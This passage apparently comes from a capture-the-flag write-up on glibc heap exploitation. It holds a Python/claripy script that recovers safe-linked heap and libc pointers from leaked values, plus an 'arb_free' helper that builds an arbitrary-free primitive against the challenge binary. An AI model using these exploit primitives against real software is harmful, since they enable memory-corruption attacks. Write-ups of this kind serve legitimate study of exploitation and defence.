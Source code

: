 babaisflag found out this generalizes to non-protected pointers as well, which allow us to leak the libc pointer that came from the unsorted bin.

```py
import claripy
from pwn import *
import os

s = claripy.Solver()


def compute_leaks(rand_val, p):
    xor_leak = (rand_val >> 0x1c) ^ p
    sub_leak = (rand_val >> 0x1c) - (p >> 0xc)
    return xor_leak, sub_leak

def compute_leaks_symbolic(rand_val, p):
    xor_leak = claripy.LShR(rand_val, 0x1c) ^ p
    sub_leak = claripy.LShR(rand_val, 0x1c) - (p >> 0xc)
    return xor_leak, sub_leak

protected = 0x557f04d0e3ed
rand_example = u64(os.urandom(8))

xor_leak, sub_leak = compute_leaks(rand_example, protected)

# everything below here can be done without rand_example

rand = claripy.BVS('rand', 64)
orig_ptr = claripy.BVS('orig', 64)

# In my initial PoC I chose to assume that we'd be trying to leak
# a safe-linked pointer to a nearby chunk, and asked Z3 to recover
# the original unprotected pointer
protected = claripy.LShR(orig_ptr, 12) ^ orig_ptr

xor_leak_symbolic, sub_leak_symbolic = compute_leaks_symbolic(rand, protected)

s.add(xor_leak_symbolic == claripy.BVV(xor_leak, 64))
s.add(sub_leak_symbolic == claripy.BVV(sub_leak, 64))

orig_ptr = list(s.eval(orig_ptr, 8))

print([hex(x) for x in orig_ptr])
```

## 4. Construct a reusable arbitrary-free primitive

```py
def arb_free(addr):
    create_not_secret(0, b"\n", l=0x60)
    create_not_secret(1, b"\n", l=0x60)
    delete(0)
    delete(1)
    create_not_secret(3, p64(addr) + b"\n", l=0x10)
    delete(0)
```
